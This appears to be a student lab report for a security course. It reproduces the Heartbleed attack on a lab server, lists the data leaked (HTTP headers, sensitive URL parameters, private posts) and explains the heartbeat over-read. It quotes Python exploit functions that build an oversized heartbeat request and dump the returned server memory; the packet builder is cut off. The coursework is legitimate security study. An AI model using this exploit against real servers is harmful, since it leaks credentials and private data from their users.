






# Lab8 for CS315

## Some info...

Author: 11711918 吴烨昌

## Tasks

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising. Please also list the important code snippets followed by explanation. Simply attaching code without any explanation will not receive credits.

What I have done:

1. Set up server enviroment (behind NAT)



2. Set up attacker enviroment (with attack.py, set ip in hosts)

   

3. After some requests, attack.py run out some http header like pieces.

   

4. After some requests, attack.py fetch some http requests having sensetive url params.

   

5. Get some private posts:

   


How it works: the Heartbleed attack is based on the Heartbeat request. This request just sends some data to the server, and the server will copy the data to its response packet, so all the data are echoed back. 


With length decreasing, it's noticed that at 22 a malformed response is returned, less than expected.




After upgrading, no more bytes is returned. It always returns ".F" now.


```python
def build_heartbeat(tls_ver):

    heartbeat = [

0x18,       # Content Type (Heartbeat)

0x03, tls_ver,  # TLS version

0x00, 0x29,  # Length

# Payload

0x01,       # Type (Request)

opts.len/256, opts.len%256,  # Payload length

0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,

0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41,

0x41, 0x41, 0x41, 0x41, 0x41, 0x42, 0x43, 0x44,

0x45, 0x46, 0x47, 0x48, 0x49, 0x4A, 0x4B, 0x4C,
```

use `build_heartbeat` to construct malicious heartbeat packet that has length longer than actual payload length, which will indicating server to return more data in memory.

``` python
def rcv_tls_record(s):

    print 'Analyze the result....'

    try:

        tls_header = s.recv(5)

        if not tls_header:

            print 'Unexpected EOF (header)' 

            return None,None,None        

        typ,ver,length = struct.unpack('>BHH',tls_header)

        message = ''

        while len(message) != length:

            message += s.recv(length-len(message))

        if not message:

            print 'Unexpected EOF (message)'

            return None,None,None

        if opts.verbose:

	        print 'Received message: type = {}, version = {}, length = {}'.format(typ,hex(ver),length,)

        return typ,ver,message

    except Exception as e:

        print "\nError Receiving Record! " + str(e)

        return None,None,None


def hit_hb(s, targ, firstrun, supported):

    s.send(hex2bin(build_heartbeat(supported)))

    while True:

        typ, ver, pay = rcv_tls_record(s)

        if typ is None:

            print 'No heartbeat response received, server likely not vulnerable'

            return ''

        if typ == 24:

            if opts.verbose:

                print 'Received heartbeat response...'

            if len(pay) > 0x29:

                if firstrun or opts.verbose:

                    print '\nWARNING: ' + targ + ':' + str(opts.port) + ' returned more data than it should - server is vulnerable!'

                if opts.rawoutfile:

                    rawfileOUT.write(pay)

                if opts.extractkey:

                	return pay

                else:

	                return hexdump(pay)

            else:

                print 'Server processed malformed heartbeat, but did not return any extra data.'
```

`rcv_tls_record` will return unpacked server returned data. if the length of returned data is more than expected ( or as expected ?), there is heartbleed exploit on the server. 


